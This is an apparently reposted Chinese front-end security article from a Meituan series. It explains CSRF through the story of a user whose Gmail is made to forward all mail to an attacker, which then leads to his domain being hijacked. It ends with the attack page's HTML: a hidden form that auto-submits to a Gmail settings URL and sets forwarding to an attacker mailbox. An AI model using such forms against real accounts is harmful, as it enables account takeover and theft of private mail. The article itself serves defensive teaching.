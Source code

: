 # 听美团讲如何防止CSRF攻击

## 背景

随着互联网的高速发展，信息安全问题已经成为企业最为关注的焦点之一，而前端又是引发企业安全问题的高危据点。在移动互联网时代，前端人员除了传统的 XSS、CSRF 等安全问题之外，又时常遭遇网络劫持、非法调用 Hybrid API 等新型安全问题。当然，浏览器自身也在不断在进化和发展，不断引入 CSP、Same-Site Cookies 等新技术来增强安全性，但是仍存在很多潜在的威胁，这需要前端技术人员不断进行“查漏补缺”。

## 前端安全

近几年，美团业务高速发展，前端随之面临很多安全挑战，因此积累了大量的实践经验。我们梳理了常见的前端安全问题以及对应的解决方案，将会做成一个系列，希望可以帮助前端同学在日常开发中不断预防和修复安全漏洞。本文是该系列的第二篇。

今天我们讲解一下 CSRF，其实相比XSS，CSRF的名气似乎并不是那么大，很多人都认为“CSRF不具备那么大的破坏性”。真的是这样吗？接下来，我们还是有请小明同学再次“闪亮”登场。

## CSRF攻击

## CSRF漏洞的发生

相比XSS，CSRF的名气似乎并不是那么大，很多人都认为CSRF“不那么有破坏性”。真的是这样吗？

接下来有请小明出场~~

## 小明的悲惨遭遇

这一天，小明同学百无聊赖地刷着Gmail邮件。大部分都是没营养的通知、验证码、聊天记录之类。但有一封邮件引起了小明的注意：

> 甩卖比特币，一个只要998！！

聪明的小明当然知道这种肯定是骗子，但还是抱着好奇的态度点了进去（请勿模仿）。果然，这只是一个什么都没有的空白页面，小明失望的关闭了页面。一切似乎什么都没有发生......

在这平静的外表之下，黑客的攻击已然得手。小明的Gmail中，被偷偷设置了一个过滤规则，这个规则使得所有的邮件都会被自动转发到haker@hackermail.com。小明还在继续刷着邮件，殊不知他的邮件正在一封封地，如脱缰的野马一般地，持续不断地向着黑客的邮箱转发而去。

不久之后的一天，小明发现自己的域名已经被转让了。懵懂的小明以为是域名到期自己忘了续费，直到有一天，对方开出了 $650 的赎回价码，小明才开始觉得不太对劲。

小明仔细查了下域名的转让，对方是拥有自己的验证码的，而域名的验证码只存在于自己的邮箱里面。小明回想起那天奇怪的链接，打开后重新查看了“空白页”的源码：

```html
<form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data"> 
    <input type="hidden" name="cf2_emc" value="true"/> 
    <input type="hidden" name="cf2_email" value="hacker@hakermail.com"/> 
    .....
    <input type="hidden" name="irf" value="on"/> 
    <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
</form> 
<script> 
    document.forms[0].submit();
</script>
```
